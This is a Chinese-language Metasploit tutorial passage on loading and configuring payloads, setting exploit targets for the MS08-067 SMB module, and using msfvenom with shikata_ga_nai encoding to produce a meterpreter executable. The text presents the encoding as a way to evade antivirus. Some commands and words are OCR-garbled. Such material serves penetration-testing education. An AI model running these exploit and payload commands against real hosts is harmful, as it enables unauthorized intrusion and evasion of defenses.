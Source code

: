 #### 加载攻击载荷
- 攻击载荷就是前面提到的 Payload 模块。通过加载攻击载荷，以实现进一步攻击，如获取 Shell 和远程执行命令等。下面将介绍加载攻击载荷的方法。
加载攻击载荷的语法格式如下：
```c
set payload <payload name>
//以上语法中，参数payload name 表示攻击载荷的名称。为16736渗透测试模块加载攻击载荷。具体操作步骤如下：

//启动并选择webtest 渗透测试模块。如下：
root@daxueba: ~# msfconsole
msf5 > use exploit/test/16736
msf5 exploit (test/16736) >

//查看可加载的 Payload
msf5 exploit (test/16736) > show payloads

/*
从输出的信息可以看到，显示了当前渗透测试模块所有可用的 payload。输出的信息共显示了6列信息，分别表示
（Payload 编号）、Name（名称）、 Disclosure Date （发布日期）、Rank（级别）、Check（是否支持检测，
和 Deseription（描述信息）。例如，加载一个反向链接的 payload，即 windows/upexec/bind_tcp。
加载攻击载荷
*/
msf5 exploit (test/16736)> set payload  windows/upexec/bind_tcp
```

#### 配置攻击载荷
- 当用户加载攻击载荷后，还需要进行配置，设置需要配置的参数选项
```c
//以 payload/windows/upexec/bind_tcp 为例
//使用show options 命令查看可配置的选项
msf5 exploit (test/16736) > show options

//设置攻击载荷的选项RHOST
msf5 exploit (test/16736) > set RHOST 192.168.1.1

//实施攻击
msf5 exploit(test/16736) > exploit
```

#### 设置架构
- 一些渗透测试模块可能支持多个系统架构。一般情况下，支持多系统架构的渗透测试模块都默认为自动的。当用户发起攻击后，滲透测试模块将自动根据探测的目标信息来选择目标。如果用户是通过其他途径获取目标主机的架构，也可以手动设置其架构，以提高滲透测试效率。
```c
//以MS08_067为例介绍架构配置方法
//选择 MS08_067 漏洞模块，并查看模块配置选项
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit (windows/smb/ms08_067_netapi) > show options

/*
从输出的信息可以看到 MS08_067 漏洞模块的所有配置选项。从显示的结果中可以看到,可利用的目标为 Automatic Targeting。
此时，用户可以使用show argsts 命令查看该漏洞模块支持的目标架构查看可利用的目标架构
*/
msf5 exploit (windows/smb/ms08 067 netapi) > show targets
/*
从输出的信息可以看到该模块支持的所有目标架构。在输出的信息中共包括两列，分
别表示1d （编号，和 Name （目标名称）。通过分析输出的结果可知，该漏洞模块支特的
架构有 windows 2000 Universal、 Windows XP SP0/SP1 Uriversal 和 Windows 2003 SP0
Universal 等。接下来，用户就可以根据自己的目标系统架构來设置。其中，没置架构的语法格式如下：
*/
//设置目标架构为 Windows XP SPO/SP1 Universal。
msf5 exploit (windows/smb/ms08_067 netapi) > set target 2
target => 2
```

#### 设置编码
- 为了避免出现坏字符，或者规避目标主机中防火墙或杀毒软件的拦截，可以为攻击载荷设置编码，从而生成新的攻击载荷。其中，编码模块主要供 msfvenom 工具使用。msfvenom是MSP 框架配套的攻击载荷生成器。其中，用于生成攻击载荷的语法格式如下：
```c
msfvenom (options) <var=val>
//该命令常用的选项及含义如下：
//-p：指定使用的 Payload
//-e：指定编码格式
//-a：指定系统架构，默认是 x86
//-s：指定payload 的最大值
//-i：指定编码次数
//-f：指定生成的文件格式

//使用x86/shikata_ga_nai编码格式生成一个新的攻击载
//查看支持的所有编码
root@daxueba: ~# msfvenom -l encoders

//创建攻击载荷
root@daxueba:~# msfvenom -p windows/meterpreter/bind_tcp RHOST=192.168.29.137 --platform windows -a x86 -e x86/shikata_ga_nai -i exe > msf.exe
```